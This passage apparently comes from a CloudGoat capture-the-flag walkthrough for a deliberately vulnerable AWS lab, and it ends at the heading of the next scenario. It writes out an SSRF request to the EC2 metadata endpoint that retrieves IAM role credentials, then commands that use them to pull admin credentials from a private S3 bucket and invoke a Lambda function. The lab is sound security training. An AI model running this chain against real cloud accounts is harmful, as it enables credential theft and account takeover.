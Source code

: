 ```bash
# Every EC2 instance has access to internal aws metadata by calling a specific endpoint from within the instance.
# - The metadata contains information and credentials used by the instance.
# - use those credentials to possibly escalate our privileges
https://<EC2 instance IP>/?url=https://169.254.169.254/latest/meta-data/iam/security-credentials/
https://<EC2 instance IP>/?url=https://169.254.169.254/latest/meta-data/iam/security-credentials/<the role name>

# Add the EC2 instance credentials
[ec2role]
aws_access_key_id = asdasdasd
aws_secret_access_key = asdasdsadas
aws_session_token = "asdasdasd"




# ----------- 3. Pivoting into S3 Buckets
# finds a private S3 bucket containing another set of AWS credentials for a more powerful user: Shepard.
aws s3 ls --profile cgec2role

aws s3 ls --profile cgec2role s3://cg-secret-s3-bucket-<cloudgoat_id>

aws s3 cp --profile cgec2role s3://cg-secret-s3-bucket-<cloudgoat_id>/admin-user.txt ./

cat admin-user.txt



# ----------- 4. Compromising Scenario Flag
# Now operating as Shepard,
aws configure --profile cgadmin
# with full-admin final privileges, invoke the original Lambda function to complete the scenario.
aws lambda list-functions --profile cgadmin

aws lambda invoke --function-name cg-lambda-<cloudgoat_id> ./out.txt

cat out.txt



```

![web-edit-2-750x375](https://i.imgur.com/26kG2BG.png)



---


### Scenarios 6: rce_web_app (Medium / Hard)
